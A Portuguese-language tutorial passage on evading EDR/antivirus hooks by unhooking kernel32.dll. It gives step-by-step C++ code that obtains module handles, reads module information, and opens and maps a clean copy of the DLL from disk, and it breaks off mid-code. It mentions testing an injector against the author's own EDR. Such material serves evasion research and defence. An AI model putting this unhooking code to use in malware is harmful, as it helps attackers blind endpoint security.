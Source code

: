 ![](https://telegra.ph/file/4650538c47cb7365c3da1.png)

---
### Monitoring APIs

Para a prova prática vamos usar um injetor simples, sem o código de unhooking para observar como ele se comporta perante o EDR/AV que fiz:

![](https://telegra.ph/file/aa79fbd4e99d908824285.png)

## Código de unhooking:

### Obtendo o Handle do Processo e do Módulo

```cpp
HANDLE process = GetCurrentProcess();
MODULEINFO mi = {};
HMODULE kernel32Module = GetModuleHandleA("kernel32.dll");

if (kernel32Module == NULL) {
    std::cerr << "Erro ao obter o handle do modulo kernel32.dll" << std::endl;
    return;
}
else {
    std::cout << "Handle do modulo kernel32.dll obtido com sucesso." << std::endl;
}
```

`GetCurrentProcess()`: Obtém um handle para o processo atual.
`GetModuleHandleA("kernel32.dll")`: Obtém o handle do módulo `kernel32.dll` que está carregado no processo atual, isso permite acessar informações sobre o módulo.
### Obtendo Informações do Módulo

```cpp
if (!GetModuleInformation(process, kernel32Module, &mi, sizeof(mi))) {
    std::cerr << "Erro ao obter informacoes do modulo kernel32.dll" << std::endl;
    return;
}
else {
    std::cout << "Informacoes do modulo kernel32.dll obtidas com sucesso!" << std::endl;
}
```

`GetModuleInformation()`: Preenche a estrutura `MODULEINFO` com informações sobre o módulo especificado, incluindo a base do módulo e o tamanho, isso é necessário para manipular a memória do módulo.
### Abrindo o Arquivo DLL e Criando Mapeamento

```cpp
HANDLE kernel32File = CreateFileA("c:\\windows\\system32\\kernel32.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);

if (kernel32File == INVALID_HANDLE_VALUE) {
    std::cerr << "Erro ao abrir o arquivo kernel32.dll." << std::endl;
    return;
}
else {
    std::cout << "Arquivo kernel32.dll aberto com sucesso!" << std::endl;
}

HANDLE kernel32Mapping = CreateFileMapping(kernel32File, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
if (kernel32Mapping == NULL) {
    std::cerr << "Erro ao criar o mapeamento de arquivo para kernel32.dll" << std::endl;
    CloseHandle(kernel32File);
```